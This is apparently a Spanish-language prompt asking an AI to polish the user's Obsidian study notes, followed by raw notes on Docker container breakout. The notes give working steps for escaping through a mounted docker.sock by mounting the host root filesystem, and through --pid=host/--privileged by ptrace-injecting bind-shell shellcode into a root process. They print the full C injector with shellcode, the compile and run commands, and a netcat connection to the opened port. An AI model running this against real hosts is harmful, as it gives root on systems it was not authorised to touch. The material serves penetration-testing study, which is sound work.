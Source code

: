
Quiero que actúes como un asistente especializado en mejorar y embellecer mis apuntes de **hacking y ciberseguridad** en Obsidian.

### Reglas de formato:
- Usa **Markdown** y todas las herramientas nativas de Obsidian:  
  - Encabezados jerárquicos (#, ##, ###…)  
  - Negritas, cursivas, tachado  
  - Listas ordenadas y no ordenadas  
  - Tablas para comparaciones  
  - Callouts (`> [!info]`, `> [!tip]`, `> [!warning]`, `> [!example]`, etc.)  
  - Diagramas con **Mermaid** (especialmente diagramas de redes, flujos y ataques)  
  - Bloques de código y comandos de terminal (bash, python, etc.)  
  - Separadores `---` para estructurar  

### Reglas de estilo:
- Embellecé y organizá mis notas para que sean **claras, fáciles de leer y visualmente atractivas**.  
- Si algo está enredado o difícil de entender, simplificalo y hacelo **más didáctico**.  
- Agregá **ejemplos prácticos** (comandos reales, simulaciones, casos de uso).  
- Respetá los **enlaces e imágenes** que yo incluya. No borres ni inventes enlaces/imágenes nuevas.  
- Podés usar **diagramas de red (Mermaid), tablas comparativas y listas de pasos** para explicar ataques, defensas y herramientas.  
- El resultado final debe ser un apunte **técnico, claro y útil para estudiar hacking**.  

Cuando te pase un texto, transformalo siguiendo estas reglas.

Aqui te va el texto:

---

# Docker Breackout

explicar teoria...



cuanod por ejemplo se hace docker ps o docker images
hay un unix socket file ubicado en ->  /var/run/docker.sock

es de file: socket
se comunica con el demonio de docker

---

vamos a ver un caso aplicado con este socket

supongamos que un contenedor se ejecuta esto.

docker run --rm -dit -v /var/run/docker.sock:/var/run/docker.sock --name ubuntuServer

suponemos que el contenedor ubuntuServer es el contenedor secuestrado luego de haber explotado alguna vulnerabilidad. sabiendo que el socket que tiene es el socket de la "maquina real" 

si efectuamos un docker images dentro de ubuntuServer vamos a ver la imagen "ubuntu" la imagen que se uso para crear ubuntuServer

por lo que podriamos dentro de este contenedor ubuntuServer armar otro contenedor y jugar con monturas tambien metiendo la carpeta el directorio raiz dentro de /mnt/root

docker run --rm -dit -v /:/mnt/root --name privesc ubuntu

y aca esta la cosa: el / es el root del host real o maquina real. no del contenedor ubuntuServer

si hacemos un docker exec -it privesc bash
cd /mnt/root

si hacemos chmod u+x /mnt/root/bin/bash

estariamos modificando el binario bash del host real poniendole permisos de ejecucion al usuario root



----

otro caso

contenedor con la flag --pid=host
tambien con --privileged el cual habilita todas las capabilities

si tienes acceso a listar las capabilities con capsh --print

sino puedes instalarlo con apt install libcap2-bin

suponiendo que sabes o descubriste lo de --pid=host y --privileged

puedes listar los procesos

ps -faux


cuando tenemos este tipo de casos que por ejemplo tenga un contenedor con --pid=host si el host tiene un proceso corriendo con privilegios de root por ejemplo python -m http.server 80 lo vamos a poder ver y utilizar a nuestro favor, esto con cuaquier proceso que este corriendo como root

la idea es poder inyectar shellcode instrucciones de bajo nivel maliciosas en el proceso que este corriendo como root, el cual permita crear un subproceso por el cual ejecute un comando

podemos ver este repositorio
https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c

especificamente este codigo infect.c

en este caso el shellcode lo ajustamos para que nos permita entablar una [[Bind Shell]] dejando un puerto 5600 abierto y luego con [[netcat]] ponerneos en escucha y conectarnos a ese puerto

existe en exploitdb un script que tiene ese shellcode. 

```c
 sh[]="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";

```
lo ajustamos a nuestro codigo infect.c y nos quedaria asi

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>

#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 32

unsigned char *shellcode =  "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";


int
inject_data (pid_t pid, unsigned char *src, void *dst, int len)
{
  int      i;
  uint32_t *s = (uint32_t *) src;
  uint32_t *d = (uint32_t *) dst;

  for (i = 0; i < len; i+=4, s++, d++)
    {
      if ((ptrace (PTRACE_POKETEXT, pid, d, *s)) < 0)
	{
	  perror ("ptrace(POKETEXT):");
	  return -1;
	}
    }
  return 0;
}

int
main (int argc, char *argv[])
{
  pid_t                   target;
  struct user_regs_struct regs;
  int                     syscall;
  long                    dst;

  if (argc != 2)
    {
      fprintf (stderr, "Usage:\n\t%s pid\n", argv[0]);
      exit (1);
    }
  target = atoi (argv[1]);
  printf ("+ Tracing process %d\n", target);

  if ((ptrace (PTRACE_ATTACH, target, NULL, NULL)) < 0)
    {
      perror ("ptrace(ATTACH):");
      exit (1);
    }

  printf ("+ Waiting for process...\n");
  wait (NULL);

  printf ("+ Getting Registers\n");
  if ((ptrace (PTRACE_GETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  

  /* Inject code into current RPI position */

  printf ("+ Injecting shell code at %p\n", (void*)regs.rip);
  inject_data (target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);

  regs.rip += 2;
  printf ("+ Setting instruction pointer to %p\n", (void*)regs.rip);

  if ((ptrace (PTRACE_SETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  printf ("+ Run it!\n");

 
  if ((ptrace (PTRACE_DETACH, target, NULL, NULL)) < 0)
	{
	  perror ("ptrace(DETACH):");
	  exit (1);
	}
  return 0;
}
```

tener en cuenta que el contenedor necesitamos tener instalado gcc y libcap2-bin netcat nano

con apt update && apt install gcc libcap2-bin netcat nano -y

luego compilamos

gcc infect.c -o infect

y ejecutamos

buscamos un proceso corriendo como root por ejemplo supongamos que un proceso python -m http.server 80 tiene el pid 1234

./infect 1234

luego ya estaria escuchando el host en el puerto 5600 pero primero

la ip del contenedor -> hostname -I -> 172.17.0.2
la ip del host -> por consecuencia seria 172.17.0.1

en el contenedor obviamente

nc 172.17.0.1 5600
nos devuelve la consola interactiva


ahi ya puedes hacer el [[Tratamiento de TTY]]

